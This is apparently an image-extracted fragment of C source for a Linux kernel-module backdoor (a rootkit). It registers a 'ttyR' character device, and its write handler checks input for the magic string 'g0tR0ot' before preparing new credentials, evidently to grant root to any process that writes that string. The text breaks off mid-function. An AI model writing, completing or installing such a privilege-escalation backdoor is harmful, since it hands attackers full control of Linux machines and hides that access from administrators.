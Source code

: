 ```
#define  CLASS_NAME  "ttyR"

#if LINUX_VERSION_CODE > KERNEL_VERSION(3,4,0)
#define V(x) x.val
#else
#define V(x) x
#endif

// Prototypes
static int     __init root_init(void);
static void    __exit root_exit(void);
static int     root_open  (struct inode *inode, struct file *f);
static ssize_t root_read  (struct file *f, char *buf, size_t len, loff_t *off);
static ssize_t root_write (struct file *f, const char __user *buf, size_t len, loff_t *off);

// Module info
MODULE_LICENSE("GPL"); 
MODULE_AUTHOR("pico");
MODULE_DESCRIPTION("Got r00t!."); 
MODULE_VERSION("0.1"); 

static int            majorNumber; 
static struct class*  rootcharClass  = NULL;
static struct device* rootcharDevice = NULL;

static struct file_operations fops =
{
  .owner = THIS_MODULE,
  .open = root_open,
  .read = root_read,
  .write = root_write,
};

static int
root_open (struct inode *inode, struct file *f)
{
   return 0;
}

static ssize_t
root_read (struct file *f, char *buf, size_t len, loff_t *off)
{
  return len;
}

static ssize_t
root_write (struct file *f, const char __user *buf, size_t len, loff_t *off)
{ 
  char   *data;
  char   magic[] = "g0tR0ot";

  struct cred *new_cred;
  
  data = (char *) kmalloc (len + 1, GFP_KERNEL);
    
  if (data)
    {
      copy_from_user (data, buf, len);
        if (memcmp(data, magic, 7) == 0)
	  {
	    if ((new_cred = prepare_creds ()) == NULL)
	      {
		return 0;
```